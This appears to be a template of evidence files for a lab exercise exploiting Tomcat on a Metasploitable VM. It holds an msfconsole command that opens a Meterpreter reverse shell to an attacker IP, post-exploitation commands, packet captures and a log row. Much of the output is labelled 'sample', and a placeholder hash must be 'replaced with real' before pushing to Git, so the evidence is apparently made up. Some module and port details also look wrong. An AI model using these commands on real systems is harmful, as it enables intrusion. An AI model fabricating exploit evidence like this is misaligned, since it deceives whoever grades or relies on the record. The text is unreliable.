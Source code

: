 evidence/msfconsole_log.txt
Command used:
msfconsole -q -x "use exploit/multi/http/tomcat_mgr_login; set RHOSTS 192.168.1.100; set RPORT 8080; set LHOST 192.168.29.155; set PAYLOAD java/meterpreter/reverse_tcp; set LPORT 4444; exploit -j; sleep 2; sessions -l; sessions -i 1; sysinfo; exit"

Sample output:
[] Started reverse TCP handler on 192.168.29.155:4444
[] Using URL: http://0.0.0.0:8080/

[] Exploit completed, but no session was created.
[] Trying again...
[] Meterpreter session 1 opened (192.168.29.155:4444 -> 192.168.1.100:34567) at 2025-09-12 10:12:07 +0530
[] Session 1 (192.168.29.155:4444 -> 192.168.1.100:34567) opened.

evidence/meterpreter_sysinfo.txt
Content:
meterpreter > sysinfo
Computer : metasploitable
OS : Linux metasploitable 2.6.32-042stab123 #1 SMP x86_64
Architecture : x64
Meterpreter : java

evidence/meterpreter_getuid.txt
Content:
meterpreter > getuid
Server username: tomcat

evidence/process_list.txt
Command:
meterpreter > ps

Snippet:
PID PPID Name Arch User
1345 1 java x64 tomcat
1346 1345 org.apache.catalina.core.ContainerBase$StartChild
...

evidence/webapps_listing.txt
Command:
meterpreter > ls /usr/share/tomcat/webapps

Snippet:
drwxr-xr-x 5 tomcat tomcat 4096 Sep 12 10:05 ROOT
drwxr-xr-x 2 tomcat tomcat 4096 Sep 12 10:06 examples
-rw-r--r-- 1 tomcat tomcat 834 Sep 12 10:06 shell.war

evidence/download_confirmation.txt
Command on meterpreter:
meterpreter > download /usr/share/tomcat/webapps/shell.war /home/kali/Downloads/shell.war

Output:
[] Downloading: /usr/share/tomcat/webapps/shell.war -> /home/kali/Downloads/shell.war
[] Download complete: /home/kali/Downloads/shell.war

evidence/shell_war_sha256.txt
On Kali:
sha256sum /home/kali/Downloads/shell.war

Sample output (replace with real hash):
e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855 shell.war

evidence/netstat_connection.txt
On Kali:
ss -tnp | grep 4444

Sample output:
ESTAB 0 0 192.168.29.155:4444 192.168.1.100:34567 users:(("ruby",pid=2100,fd=7))

evidence/tcpdump_handshake.pcap and tcpdump_handshake.txt
Command on Kali while exploit runs:
sudo tcpdump -n -i eth0 host 192.168.1.100 and tcp port 4444 -c 6 -w evidence/tcp_handshake.pcap

Then:
tcpdump -r evidence/tcp_handshake.pcap -nn -q > evidence/tcpdump_handshake.txt

Sample tcpdump summary (tcpdump_handshake.txt):
12:10:07.123456 IP 192.168.1.100.34567 > 192.168.29.155.4444: Flags [S], seq 123456789, win 29200, options [mss 1460,sackOK,TS], length 0
12:10:07.123477 IP 192.168.29.155.4444 > 192.168.1.100.34567: Flags [S.], seq 987654321, ack 123456790, win 28960, options [mss 1460,sackOK,TS], length 0
12:10:07.123501 IP 192.168.1.100.34567 > 192.168.29.155.4444: Flags [.], ack 1, win 229, length 0

exploit_log.csv
Ensure this row exists:
Exploit ID,Description,Target IP,Status,Payload,Attacker IP,Date
003,Tomcat RCE,192.168.1.100,Success,java/meterpreter/reverse_tcp,192.168.29.155,2025-09-12

Suggested evidence/ folder structure to push to Git:
evidence/
msfconsole_log.txt
meterpreter_sysinfo.txt
meterpreter_getuid.txt
process_list.txt
webapps_listing.txt
download_confirmation.txt
shell_war_sha256.txt
netstat_connection.txt
tcpdump_handshake.pcap
tcpdump_handshake.txt
exploit_log.csv
